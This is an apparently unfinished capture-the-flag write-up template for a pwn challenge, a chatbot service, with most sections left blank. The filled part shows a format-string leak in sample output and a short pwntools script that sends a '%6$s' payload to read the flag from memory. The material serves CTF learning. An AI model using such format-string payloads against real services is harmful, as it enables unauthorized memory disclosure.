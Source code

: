 # Challenge Name - CTF Name
## Challenge Info
- Date: YYYY-MM-DD
- CTF Name:
- Category: web/pwn/rev/crypto/osint/misc
- Difficulty (subjective): easy/medium/hard
- Points:
- Provided Files:
- tools:
## Brief Description
With everything and everyone going AI today, we also are developing our own AI bot. It is a first draft and it still requires some work, but feel free to test it out.
## Initial Analysis
### Environment
### Code
## Vulnerability
## Exploit
### Strategy
아마 단어 기반으로 출력하는 듯?
FSB?
### Exploitation Steps
``` sh
Hi, what can I help you with today?
> flag
The flag is safely stored in 0x586556405040
```
``` sh
Is there anything what you want me to ask?
> AAAAAAAA %x %x %x %x %x %x %x %x %x %x %x %x
I'm sorry, I don't know about: AAAAAAAA c140a09f c140a090 1d c140a0c0 0 41414141 20782520 78252078 25207825 20782520 78252078 c140a0f0
```
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

p = remote('simple-ai-bot.ctf.zone', 4242)

# flag addr
p.sendline(b'flag')
p.recvuntil('The flag is safely stored in ')
flag_addr = int(p.recvline()[2:], 16)
log.info(f'flag_addr: {hex(flag_addr)}')

# FSB
payload = b''
payload += p64(flag_addr)[:6] + b' %6$s'
cur_addr = p.sendline(payload)
# p.recvuntil(b'know about: ')
p.recvline()
flag = p.recvline()
log.info(f'flag: {flag}')

# interactive
p.interactive()
```
## Lessons Learned
## Mitigation Strategies(Remediation)